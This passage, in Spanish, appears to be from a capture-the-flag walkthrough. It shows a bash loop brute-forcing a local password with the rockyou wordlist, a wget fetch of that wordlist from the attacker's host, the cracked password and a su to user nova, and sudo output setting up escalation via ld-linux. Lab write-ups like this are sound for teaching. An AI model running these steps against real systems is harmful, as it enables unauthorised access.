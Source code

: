 ```shell
    # Comprobamos si el comando fue exitoso
    if [ $? -eq 0 ]; then
        echo "Contraseña encontrada: $password"
        break
    fi
done < "$wordlist"
```

Ahora nos pasaremos el `rockyou.txt`:

```shell
cd /usr/share/wordlists/
python3 -m http.server
```

Y en la maquina victima ponemos lo siguiente:

```shell
wget http://<IP>:8000/rockyou.txt
```

Con esto ya podremos ejecutar el script:

```shell
bash brute.sh
```

Info:

```
Probando contraseña: cuteangel
Escribe la contraseña (Pista: se encuentra en el rockyou ;) ): Contraseña correcta, mi contraseña es: BlueSky_42!NeonPineapple
Contraseña encontrada: cuteangel
```

Despues de un rato habremos encontrado la contraseña que seria `BlueSky_42!NeonPineapple`.

Por lo que haremos lo siguiente:

```shell
su nova
```

Metemos como contraseña `BlueSky_42!NeonPineapple` y seremos dicho usuario.

## Escalate user maci

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for nova on 71c36e1f8f71:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User nova may run the following commands on 71c36e1f8f71:
    (maci : maci) NOPASSWD: /lib64/ld-linux-x86-64.so.2
```
